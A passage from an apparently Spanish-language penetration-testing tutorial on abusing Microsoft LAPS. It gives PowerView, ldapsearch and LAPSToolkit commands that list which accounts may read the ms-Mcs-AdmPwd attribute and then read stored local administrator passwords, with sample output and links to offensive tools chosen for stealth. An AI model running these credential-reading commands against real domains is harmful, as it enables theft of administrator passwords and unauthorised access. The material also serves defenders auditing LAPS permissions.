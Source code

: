 
## 3. Explotación de LAPS
### 3.1 ms-Mcs-AdmPwd

Podemos descubrir cuales son los usuarios los cuales tienen permitido leer el atributo ms-Mcs-AdmPwd.

```powershell
powershell Get-DomainComputer | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectAceType -eq "ms-Mcs-AdmPwd" -and $_.ActiveDirectoryRights -match "ReadProperty" } | select ObjectDn, SecurityIdentifier
```
Puedes usar [**LDAPSearch**](https://linux.die.net/man/1/ldapsearch) también si te es más útil:

```text
ldapsearch -x -h  -D "@" -w  -b "dc=<>,dc=<>,dc=<>" "(&(objectCategory=computer)(ms-MCS-AdmPwd=*))" ms-MCS-AdmPwd
```
También puedes usar herramientas en C# si te ayudan para mantenerte oculto como [**SharpLAPS**](https://github.com/swisskyrepo/SharpLAPS).

En caso de que quieras usar Python porque te sientas más cómodo o el motivo que sea peudes usar [**PyLAPS**](https://github.com/p0dalirius/pyLAPS).

Recuerda que puedes usar `powershell ConvertFrom-SID` para posteriormente transformar el SID al nombre del usuario. 

Además podemos usar [**LAPSToolkit**](https://github.com/leoloobeek/LAPSToolkit) para hacer el mismo prooceso. 
```powershell
powershell Find-LAPSDelegatedGroups
```

Con `Find-AdmPwdExtendedRights` podemos buscar también usuarios que tienen acceso sin haberse delegado especificamente

Simplemente tenemos que tratar de leeer el atributo

```powershell
powershell Get-DomainComputer -Identity ordenador -Properties ms-Mcs-AdmPwd

ms-mcs-admpwd 
------------- 
PaSSSSWo0rD1-Very-VeryyyyyS3cure
```

![Desktop View](/assets/img/laps/laps2.png){: width="972" height="589" }
